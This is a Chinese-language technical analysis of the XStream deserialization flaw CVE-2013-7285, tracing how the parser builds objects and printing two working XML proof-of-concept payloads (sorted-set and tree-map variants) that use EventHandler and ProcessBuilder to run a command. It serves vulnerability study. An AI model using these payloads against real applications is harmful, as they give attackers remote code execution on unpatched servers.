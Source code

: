 # Xstream CVE-2013-7285 反序列化
- [Xstream CVE-2013-7285 反序列化](#xstream-cve-2013-7285-反序列化)
  - [前置知识](#前置知识)
  - [Xstream解析流程](#xstream解析流程)
  - [CVE-2013-7285](#cve-2013-7285)
    - [DynamicProxyConverter](#dynamicproxyconverter)
    - [Stored-Set](#stored-set)
    - [tree-map](#tree-map)
  - [参考](#参考)
## 前置知识

Xstream主要是从将java对象反序列化为XML或者XML反序列化为JAVA对象.

```java
import com.thoughtworks.xstream.XStream;

public class Codelab {

    public static class test{
        public int age;
        public String name;
        public void setAge(int age) {
            this.age = age;
        }
        public void setName(String name){
            this.name = name;
        }
        public int getAge(){
            return this.age;
        }
        public String getName(){
            return this.name;
        }
    }
    public static void main(String[] args) {
        XStream stream = new XStream();
        test test = new test();
        test.setAge(20);
        test.setName("tt");
        String xml = stream.toXML(test);
        System.out.println(xml);
        System.out.println("===============================");
        test test2 = (test)stream.fromXML(xml);
        System.out.println(test2);
    }
}
```

结果如下

```
<Codelab_-test>
  <age>20</age>
  <name>tt</name>
</Codelab_-test>
===============================
Codelab$test@527740a2

Process finished with exit code 0
```
## Xstream解析流程

直接来到`com/thoughtworks/xstream/core/TreeUnmarshaller.java`的`start`方法,在这之前的调用栈如下

![image-20211028231425608](image-20211028231425608.png)

主要是初始化一个Xpath的解析上下文`context`,注册了一些转换器到该`context`中,最后调用`context.start`方法开始解析xml数据,解析核心即根据标签来寻找内置的`convert`转换器,转换器再通过其`unmarshal`方法来获取对应的对象,然后再遍历子节点来获取对应的参数,最后设置好参数后返回.

## CVE-2013-7285

Xstream的转换器中有一个为`DynamicProxyConverter`的转换器,即支持将XML内的数据转换为动态代理类.而当程序调用了`dynamic-proxy`标签内的`interface`标签指向的接口类声明的方法时,就会通过动态代理机制代理访问`dynamic-proxy`标签内`handler`标签指定的类方法,利用这个机制,攻击者可以构造恶意的XML内容,即`dynamic-proxy`标签内的`handler`标签指向如`EventHandler`类这种可实现任意函数反射调用的恶意类,`interface`标签指向目标程序必然会调用的接口类方法,最后当攻击者从外部输入该恶意XML内容后即可触发反序列化漏洞,达到任意代码执行的目的.

**影响范围:**

1.4.x<=1.4.6 or 1.4.10

**POC:**

```java
      XStream stream = new XStream();
        String xml =                 "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "        <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "            <action>start</action>\n" +
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>";

        stream.fromXML(xml);
```

### DynamicProxyConverter

该转换器的`unmarshal`方法关键如下,获取节点为`interface`标签的值所指定的接口(即java.lang.Comparable),将其放入一个数组中,后续再转化为Class对象数组用于创建动态代理,然后继续再遍历子节点,当遇到`handler`标签时,再通过`handler`标签获取动态代理类的调度处理器Handler(即java.beans.EventHandler).

![](2021-11-10-11-34-52.png)

然后通过`Proxy.newProxyInstance`创建一个代理.
![](2021-11-10-12-00-31.png)
在转化调度处理器为java对象时继续使用`context.convertAnother`,在`convertAnother`中在mapper中遍历获取到`EventHanlder`对应的转换器为`ReflectionConverter`即反射转换器,然后传入`convert`中进行转换.
![](2021-11-10-12-12-10.png)
在`convert`中进行了一个缓存操作,然后判断有无`reference`标签,无的话根据当前的引用(`/sorted-set/dynamic-proxy/handler`)调用父类的`convert`进行转换得到result.
![](2021-11-10-12-20-46.png)
在父类的`convert`里最后来到`instantiateNewInstance`中利用反射返回了我们指定的`EventHandler`class对象.
![](2021-11-10-12-24-14.png)
后续操作则是类似操作,继续根据子节调用转换器转换对应的class对象(如target指定的`java.lang.ProcessBuilder`)和调用对应转换器获取我们设置action和参数.
获取到参数之后会返回`AbstractReflectionConverter.java`中的`doUnmarshal`中再利用反射设置`ProcessBuilder`对应的参数,至此动态代理类则设置完毕,等待触发.
![](2021-11-10-12-32-24.png)
### Stored-Set
而代理类触发则需要对应的接口被调用,在poc中设置的接口为`java.lang.Comparable`,而触发该接口的点在于Poc中的`stored-set`标签,该标签的类型为`java.util.SortedSet`,即一个有序集合,而对应的转换器则为`TreeSetConverter`.
![](2021-11-11-00-03-45.png)  
该`convert`会读取`stored-set`标签下的子节点,根据子节点对应的convert来反序列化其获取对应的对象,然后将其放入一个集合中,第一个元素即为我们指定的动态代理程序,而在第二个元素即我们写入的string字符串`foo`,放入集合时就会调用`java.lang.Comparable`接口的实现方法与第一个元素进行比较从而触发之前设置的动态代理程序造成RCE.
### tree-map
根据触发的方式不同还有一种利用`tree-map`标签来触发代理程序.
```xml
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
## 参考

https://www.cnblogs.com/nice0e3/p/15046895.html  
https://xz.aliyun.com/t/10001  
https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x02-XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E